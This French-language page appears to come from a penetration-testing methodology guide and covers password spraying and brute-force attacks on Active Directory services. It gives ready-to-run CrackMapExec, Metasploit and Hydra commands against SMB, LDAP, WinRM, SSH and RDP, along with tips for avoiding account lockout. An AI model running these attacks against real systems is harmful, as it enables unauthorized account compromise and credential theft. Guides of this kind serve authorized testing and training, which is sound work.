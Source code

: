 # III.B. Attaques par Force Brute et Password Spraying

Ces techniques visent à deviner les mots de passe des utilisateurs pour des services authentifiés.

## 1. Password Spraying (Pulvérisation de Mots de Passe)

*   **Principe :** Tester un ou quelques mots de passe courants/probables (ex: `Hiver2023!`, `Ete2024?`, `Password123`) contre une grande liste de noms d'utilisateurs. Moins susceptible de verrouiller les comptes que la force brute traditionnelle.
*   **Prérequis :**
    *   Liste de noms d'utilisateurs valides (obtenue via [OSINT](../01-reconnaissance-initiale/A-collecte-informations-publiques.md), [Kerbrute](../02-enumeration-domaine/A-utilisateurs-groupes-ordinateurs.md#1-enumeration-des-utilisateurs), LDAP anonyme, etc.).
    *   Connaissance de la politique de mot de passe (longueur, complexité, verrouillage - voir [Politiques et Configurations](../02-enumeration-domaine/C-politiques-configurations.md#1-enumeration-de-la-politique-de-mot-de-passe-du-domaine)).
*   **Outils et Commandes :**

    *   **CrackMapExec :**
        ```bash
        # Spraying sur SMB
        crackmapexec smb <IP_DC_OU_PLAGE> -u users.txt -p 'Hiver2023!' --continue-on-success
        # Spraying sur LDAP (attention, peut être plus sensible au verrouillage)
        crackmapexec ldap <IP_DC> -u users.txt -p 'Ete2024?' --continue-on-success
        # Spraying sur WinRM
        crackmapexec winrm <IP_CIBLE_OU_PLAGE> -u users.txt -p 'Password123'
        # Spraying sur SSH (si présent)
        crackmapexec ssh <IP_CIBLE_OU_PLAGE> -u users.txt -p 'Password123'
        ```
    *   **Metasploit (modules `auxiliary/scanner/...`) :**
        ```bash
        msfconsole
        msf > use auxiliary/scanner/smb/smb_login
        msf > set RHOSTS file:ips.txt
        msf > set USER_FILE users.txt
        msf > set PASS_FILE passwords_to_spray.txt # Fichier avec un ou quelques mots de passe
        msf > set STOP_ON_SUCCESS false # Important pour le spraying
        msf > set BRUTEFORCE_SPEED 5 # Ajuster pour éviter le verrouillage
        msf > run
        ```
    *   **Rubeus (pour Kerberos, si un compte valide est déjà connu pour tester d'autres) :**
        Peut être utilisé pour tester des mots de passe via `asktgt` mais plus adapté pour d'autres attaques Kerberos.

## 2. Force Brute Traditionnelle

*   **Principe :** Tester de nombreux mots de passe d'une liste (dictionnaire) contre un ou quelques noms d'utilisateurs. Plus bruyant et risque élevé de verrouillage de compte. À utiliser avec précaution.
*   **Cibles :** Comptes de service, comptes génériques, comptes d'administrateur connus.
*   **Outils :**
    *   **Hydra :**
        ```bash
        # Force brute RDP
        hydra -l <utilisateur> -P rockyou.txt rdp://<IP_CIBLE>
        # Force brute SMB
        hydra -l <utilisateur> -P passwords.txt <IP_CIBLE> smb
        # Force brute SSH
        hydra -t 4 -l <utilisateur> -P passwords.txt ssh://<IP_CIBLE>
        ```
    *   **CrackMapExec (avec un seul utilisateur et une liste de mots de passe) :**
        ```bash
        crackmapexec smb <IP_CIBLE> -u <utilisateur_cible> -p passwords.txt
        ```

## Considérations
*   Respecter la politique de verrouillage de compte.
*   Utiliser des délais entre les tentatives.
*   Privilégier le password spraying.
*   Documenter les tentatives et les identifiants trouvés. 